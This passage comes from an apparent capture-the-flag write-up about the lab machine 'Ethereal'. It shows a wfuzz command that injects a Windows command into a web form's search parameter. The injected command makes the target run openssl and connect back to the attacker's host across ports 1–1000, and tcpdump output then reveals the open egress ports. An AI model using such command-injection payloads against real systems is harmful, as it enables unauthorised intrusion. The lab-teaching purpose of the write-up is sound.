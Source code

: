 ```
Rule Name: Allow ICMP Request
Rule Name: Allow ICMP Reply

```

Immediately `Rule Name: Allow TCP Ports 73, 136` jumps out. I can use `openssl` as in the previous method to check that those ports are allowed out.

#### wfuzz

Stepping back, what I am actually doing is issuing a web request that results in traffic showing up in `tcpdump`. Rather than loop on target (which was kind of slow), why not loop locally and send a lot of requests. That’s what `wfuzz` is perfect for. I’ll go into burp and get the most recent parameters. I don’t need output, so I can do simple command injection without the for command loop and the nslookup. I’ll start `tcpdump`, and run `wfuzz`:
- `-z range,1-1000` - The items I’ll fuzz over, the numbers 1 to 1000.
- `--hs 'body'` - This hides results based on regex match; I’m getting results though `tcpdump`, so ‘body’ should match on all results, hiding all results.
- `-H 'Authorization: Basic YWxhbjohQzQxNG0xN3k1N3IxazNzNGc0MW4h'` - Basic auth.
- `-d ...&search=%26+c%3a\progra~2\openss~1.0\bin\openssl.exe+s_client+-quiet+-connect+10.10.14.14%3aFUZZ&...` - The command to connect to my host on the FUZZ port.

```

root@kali# wfuzz -c -z range,1-1000 --hs 'body' -H 'Authorization: Basic YWxhbjohQzQxNG0xN3k1N3IxazNzNGc0MW4h' -d '__VIEWSTATE=%2FwEPDwULLTE0OTYxODU3NjhkZITN0C6%2BrURibXNBMKWX85%2BZAtp3
%2FromW6YbvRa9SBIT&__VIEWSTATEGENERATOR=CA0B0334&__EVENTVALIDATION=%2FwEdAAOibSRuA65MRmFrDi2mLaOa4CgZUgk3s462EToPmqUw3OKvLNdlnDJuHW3p%2B9jPAN%2BI0nXEbEPM6Iq7BrPR58eJPgkqLtaYmjHN%2FiNgZYxL2A%3D%3D&search=%26+c%3a\progra~2
\openss~1.0\bin\openssl.exe+s_client+-quiet+-connect+10.10.14.14%3aFUZZ&ctl02=' http://ethereal.htb:8080
********************************************************
* Wfuzz 2.3.4 - The Web Fuzzer                         *
********************************************************

Target: http://ethereal.htb:8080/
Total requests: 1000

==================================================================
ID   Response   Lines      Word         Chars          Payload
==================================================================

Total time: 1538.89876
Processed Requests: 1000
Filtered Requests: 1000
Requests/sec.: 0.649815

```

Monitoring the `tcpdump` window reveals the two open ports:

```

root@kali# tcpdump -ni tun0 "src host 10.10.10.106 and tcp[tcpflags] == (tcp-syn)"
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
07:00:58.213236 IP 10.10.10.106.49969 > 10.10.14.14.73: Flags [S], seq 76461250, win 8192, options [mss 1357,nop,wscale 8,nop,nop,sackOK], length 0
07:00:59.163625 IP 10.10.10.106.49969 > 10.10.14.14.73: Flags [S], seq 76461250, win 8192, options [mss 1357,nop,nop,sackOK], length 0
07:01:42.997152 IP 10.10.10.106.50032 > 10.10.14.14.136: Flags [S], seq 1927768196, win 8192, options [mss 1357,nop,wscale 8,nop,nop,sackOK], length 0
07:01:43.920329 IP 10.10.10.106.50032 > 10.10.14.14.136: Flags [S], seq 1927768196, win 8192, options [mss 1357,nop,nop,sackOK], length 0

```